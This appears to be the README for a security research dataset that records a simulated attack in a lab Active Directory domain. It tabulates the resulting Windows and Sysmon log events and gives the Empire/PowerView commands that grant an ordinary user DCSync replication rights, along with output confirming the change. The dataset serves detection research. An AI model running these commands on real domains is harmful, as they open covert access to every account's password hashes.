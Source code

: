 # Empire DCSync ACL

An adversary with enough permissions (domain admin) can add an ACL to the Root Domain for any user, despite being in no privileged groups, having no malicious sidHistory, and not having local admin rights on the domain controller itself .

## Technique(s) ID

T1222

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_dcsync_acl.tar.gz](./empire_dcsync_acl.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-01125905

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             280 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             181 |
| Security                                 | Token Right Adjusted Events                            |              93 |
| Security                                 | User Account Management                                |              11 |
| Security                                 | Detailed File Share                                    |               9 |
| Security                                 | Directory Service Changes                              |               6 |
| Security                                 | Group Membership                                       |               4 |
| Security                                 | Logoff                                                 |               4 |
| Security                                 | Logon                                                  |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Authentication Policy Change                           |               3 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | SAM                                                    |               3 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             500 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             271 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             149 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              70 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              45 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              27 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              18 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               6 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               5 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             264 |


## Attacker Activity

```
scriptimport data/module_source/situational_awareness/network/powerview.ps1
scriptcmd Add-DomainObjectAcl -TargetIdentity "dc=shire,dc=com" -TargetDomain shire.com -PrincipalIdentity nmartha -Rights DCSync
```

You can verify that it worked by running the following commands:

```
scriptcmd $nmarthaSid = Get-DomainUser nmartha | Select-Object -ExpandProperty objectsid; Get-DomainObjectACL  "dc=shire,dc=com" -Domain shire.com -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $nmarthaSid}
```

```
AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```
